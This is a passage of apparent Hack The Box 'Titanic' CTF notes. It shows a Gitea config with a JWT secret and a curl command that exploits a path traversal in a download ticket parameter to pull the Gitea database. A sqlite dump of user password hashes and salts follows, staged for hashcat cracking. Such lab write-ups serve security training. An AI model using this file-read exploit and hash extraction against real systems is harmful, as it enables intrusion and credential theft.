 ```bash
[lfs]
PATH = /data/git/lfs

[mailer]
ENABLED = false

[openid]
ENABLE_OPENID_SIGNIN = true
ENABLE_OPENID_SIGNUP = true

[cron.update_checker]
ENABLED = false

[repository.pull-request]
DEFAULT_MERGE_STYLE = merge

[repository.signing]
DEFAULT_TRUST_MODEL = committer

[oauth2]
JWT_SECRET = FIAOKLQX4SBzvZ9eZnHYLTCiVGoBtkE4y5B7vMjzz3g
```

### Gitea.db : developer user
```bash
curl "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" --output ./gitea.db
```

```bash
┌──(kali㉿kali)-[~/htb/Titanic]
└─$ sqlite3 ./gitea.db                                      
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
3|a|a||a@a.com|0|enabled|0ae3825641016406643a122f7f3ca6c6b5cfc76abd40075f73eb8deff4cce5448bfa95dc5a4ff81d62cb77921cd224b2010d|pbkdf2$50000$50|0|0|0||0|||314efc292d5e9576a2154e9bc85facb8|24fc79c6b2aadeb9555d40312ac55460|en-US||1739990352|1739990365|1739990352|0|-1|1|0|0|0|0|1|0|d10ca8d11301c2f4993ac2279ce4b930|a@a.com|0|0|0|0|0|0|0|0|0||gitea-auto|0
```

### Hashcat bruteforce

compte crée:
b : 123456789
